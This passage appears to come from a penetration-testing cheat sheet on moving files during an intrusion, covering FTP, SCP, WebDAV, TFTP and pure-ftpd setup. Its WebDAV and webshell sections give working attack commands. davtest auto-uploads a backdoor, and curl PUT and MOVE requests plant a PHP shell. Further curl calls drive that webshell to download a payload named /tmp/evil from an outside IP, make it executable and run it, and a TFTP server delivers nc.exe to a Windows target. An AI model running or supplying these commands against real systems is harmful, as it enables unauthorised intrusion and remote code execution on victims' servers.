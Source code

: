   ```shell
  apt-get install python-pyftpdlib
  python -m pyftpdlib -p 21
  ```

- SCP

  ```shell
  scp username1@source_host:directory1/filename1 username2@destination_host:directory2/filename2
  scp localfile username@$ip:~/Folder/
  scp Linux_Exploit_Suggester.pl bob@192.168.1.10:~
  ```

- Webdav with Davtest- Some sysadmins are kind enough to enable the PUT method - This tool will auto upload a backdoor

  - `davtest -move -sendbd auto -url http://$ip`
  - <https://github.com/cldrn/davtest>
  - You can also upload a file using the PUT method with the curl command:
   `curl -T 'leetshellz.txt' 'http://$ip'`
  - And rename it to an executable file using the MOVE method with the curl command:
   `curl -X MOVE --header 'Destination:http://$ip/leetshellz.php' 'http://$ip/leetshellz.txt'`

- Upload shell using limited php shell cmd  
  - use the webshell to download and execute the meterpreter  
  - `curl -s --data "cmd=wget <http://174.0.42.42:8000/dhn> -O`
  - `/tmp/evil" <http://$ip/files/sh.php>`
  - `curl -s --data "cmd=chmod 777 /tmp/evil"`
  - `<http://$ip/files/sh.php>`
  - `curl -s --data "cmd=bash -c /tmp/evil" <http://$ip/files/sh.php>`

- TFTP  
  
  ```cmd
  mkdir /tftp  
  atftpd --daemon --port 69 /tftp  
  cp /usr/share/windows-binaries/nc.exe /tftp/  
  EX. FROM WINDOWS HOST:  
  C:\\Users\\Offsec>tftp -i $ip get nc.exe
  ```

- FTP  
  
  ```shell
  apt-get update && apt-get install pure-ftpd  

  #!/bin/bash  
  groupadd ftpgroup  
  useradd -g ftpgroup -d /dev/null -s /etc ftpuser  
  pure-pw useradd offsec -u ftpuser -d /ftphome  
  pure-pw mkdb  
  cd /etc/pure-ftpd/auth/  
  ln -s ../conf/PureDB 60pdb  
  mkdir -p /ftphome  
  chown -R ftpuser:ftpgroup /ftphome/  

  /etc/init.d/pure-ftpd restart
  ```

